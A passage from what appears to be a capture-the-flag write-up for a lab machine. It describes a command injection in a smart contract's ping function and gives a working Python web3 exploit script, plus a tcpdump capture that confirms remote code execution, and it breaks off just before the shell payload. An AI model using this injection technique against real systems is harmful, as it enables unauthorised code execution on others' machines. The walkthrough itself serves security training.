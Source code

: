 Ganache CLI uses ethereumjs to simulate full client behavior and make developing Ethereum applications faster, easier, and safer. It also includes all popular RPC functions and features (like events) and can be run deterministically to make development a breez.

To interact with the Smart Contract, we need:

+ the address to identify the contract
+ Application Binary Interface of the contract (abi)

To test this vulnerability we can use setDomain() function and set the domain to our localhost  and then call getDomain(). This will make the contract ping localhost, if ping successful we know we got remote code execution.

###### Building the Exploit:

To test our theory let’s start building a python script to interact with this contract. I will be using web3 liabrary to interect with smart contract.

Final Exploit:

```python
#!/usr/bin/env python3
import json 
import sys
from web3 import Web3, HTTPProvider

abi = json.loads(open('WeaponizedPing.json').read())
address = open('address.txt').read().rstrip()
w3 = Web3(HTTPProvider('http://10.10.10.142:9810'))
account = w3.eth.coinbase
contract = w3.eth.contract(address=address, abi=abi['abi'])
contract.functions.setDomain(sys.argv[1]).transact({"from":account,"to":address})
contract.functions.getDomain().call()
print("Done..")
```
> Watch out the address.txt changes after every reset, wasted a lot of time because of this :/

#### User Shell

Before trying to get a remote shell lets test our theory and find if we can achieve RCE. Script will send a ping request to VPN IP.

TCP Dump to capture ping request:

```python

➜  chainsaw tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
14:11:28.037126 IP 10.10.10.142 > 10.10.14.35: ICMP echo request, id 18359, seq 1, length 64
14:11:28.037206 IP 10.10.14.35 > 10.10.10.142: ICMP echo reply, id 18359, seq 1, length 64
```
Yes we received ICMP echo requests from our IP. Now that we know RCE possible, lets replace the ping with the payload.

Running the exploit:
